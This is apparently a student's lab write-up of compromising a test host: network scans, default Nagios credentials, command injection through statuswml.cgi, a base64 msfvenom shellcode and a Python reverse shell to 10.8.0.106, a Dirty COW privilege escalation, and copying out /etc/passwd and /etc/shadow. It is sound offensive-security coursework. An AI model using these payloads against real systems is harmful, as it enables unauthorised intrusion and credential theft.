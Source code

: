 ﻿# Telmora 192.168.2.20
## Andrea Zonnekus 18758119

sudo nmap -sV -sC -T4 -O -Pn 192.168.2.20 -oN host\_discovery

![](telmora_steps/Aspose.Words.04c23fac-8348-40e2-801d-62f83e5e11b3.001.png)

dirb http://192.168.2.20:443 -w /usr/share/dirb/wordlists/big.txt -o https\_enum -x exts

![](telmora_steps/Aspose.Words.04c23fac-8348-40e2-801d-62f83e5e11b3.002.png)



nagios b/c guide

<https://www.ibm.com/docs/en/power8?topic=POWER8/p8ef9/p8ef9_ppim_nagios_userid.htm>

**nagiosadmina:PASSW0RD**

![](telmora_steps/Aspose.Words.04c23fac-8348-40e2-801d-62f83e5e11b3.003.png)

searchsploit nagios

![](telmora_steps/Aspose.Words.04c23fac-8348-40e2-801d-62f83e5e11b3.004.png)

![](telmora_steps/Aspose.Words.04c23fac-8348-40e2-801d-62f83e5e11b3.005.png)

http://192.168.2.20/nagios/cgi-bin/statuswml.cgi?ping=10.8.0.106%3Becho+%24PATH![Graphical user interface

![](telmora_steps/Aspose.Words.04c23fac-8348-40e2-801d-62f83e5e11b3.006.png)

![](telmora_steps/Aspose.Words.04c23fac-8348-40e2-801d-62f83e5e11b3.007.png)



http://192.168.2.20/nagios/cgi-bin/statuswml.cgi?ping=10.8.0.106%3Bgetent%20passwd

![](telmora_steps/Aspose.Words.04c23fac-8348-40e2-801d-62f83e5e11b3.008.png)

nc 192.168.2.20 80

![](telmora_steps/Aspose.Words.04c23fac-8348-40e2-801d-62f83e5e11b3.009.png)

<http://192.168.2.20/nagios/cgi-bin/statuswml.cgi?ping=10.8.0.106%3Buname%20-a>

![](telmora_steps/Aspose.Words.04c23fac-8348-40e2-801d-62f83e5e11b3.010.png)

msfvenom -p linux/x86/shell/reverse\_tcp LHOST=192.168.2.20 LPORT=4444 --format=base64 --arch=x86

![](telmora_steps/Aspose.Words.04c23fac-8348-40e2-801d-62f83e5e11b3.011.png)

192.168.2.20/nagios/cgi-bin/statuswml.cgi?ping=10.8.0.106%3B`echo%20%22agpeMdv341NDU2oCsGaJ4c2Al1towKgCFGgCABFcieFqZlhQUVeJ4UPNgIXAeRlOdD1oogAAAFhqAGoFieMxyc2AhcB5vesnsge5ABAAAInjwesMweMMsH3NgIXAeBBbieGZsiSwA82AhcB4Av/huAEAAAC7AQAAAM2A%22%20|%20base64%20-d`

![](telmora_steps/Aspose.Words.04c23fac-8348-40e2-801d-62f83e5e11b3.012.png)

at this point I blankly stare at the screen for a while (important step for exploitation)



<http://192.168.2.20/nagios/cgi-bin/statuswml.cgi?ping=;export%20RHOST=%2210.8.0.106%22;export%20RPORT=4444;python%20-c%20%27import%20socket,os,pty;s=socket.socket();s.connect((os.getenv(%22RHOST%22),int(os.getenv(%22RPORT%22))));%5bos.dup2(s.fileno(),fd)%20for%20fd%20in%20(0,1,2)%5d;pty.spawn(%22/bin/bash%22)%27>

![](telmora_steps/Aspose.Words.04c23fac-8348-40e2-801d-62f83e5e11b3.013.png)

![](telmora_steps/Aspose.Words.04c23fac-8348-40e2-801d-62f83e5e11b3.014.png)

bash –version (cannot run les)

![](telmora_steps/Aspose.Words.04c23fac-8348-40e2-801d-62f83e5e11b3.015.png)



confirm users

![](telmora_steps/Aspose.Words.04c23fac-8348-40e2-801d-62f83e5e11b3.016.png)

<https://legalhackers.com/videos/Nagios-Exploit-Command-Injection-CVE-2016-9565-2008-4796.html>

gcc poke.c -pthread -lcrypt -o cow

![](telmora_steps/Aspose.Words.04c23fac-8348-40e2-801d-62f83e5e11b3.017.png)

./cow

![](telmora_steps/Aspose.Words.04c23fac-8348-40e2-801d-62f83e5e11b3.018.png)

![](telmora_steps/Aspose.Words.04c23fac-8348-40e2-801d-62f83e5e11b3.019.png)

sudo cp /etc/passwd /tmp/

sudo cp /etc/shadow /tmp/

![](telmora_steps/Aspose.Words.04c23fac-8348-40e2-801d-62f83e5e11b3.020.png)

python -m SimpleHTTPServer 4040

![](telmora_steps/Aspose.Words.04c23fac-8348-40e2-801d-62f83e5e11b3.021.png)

wget <http://192.168.2.20:4040/passwd>

![](telmora_steps/Aspose.Words.04c23fac-8348-40e2-801d-62f83e5e11b3.022.png)

wget <http://192.168.2.20:4040/shadow>

![](telmora_steps/Aspose.Words.04c23fac-8348-40e2-801d-62f83e5e11b3.023.png)

mv /tmp/passwd.bak /etc/passwd

![](telmora_steps/Aspose.Words.04c23fac-8348-40e2-801d-62f83e5e11b3.024.png)
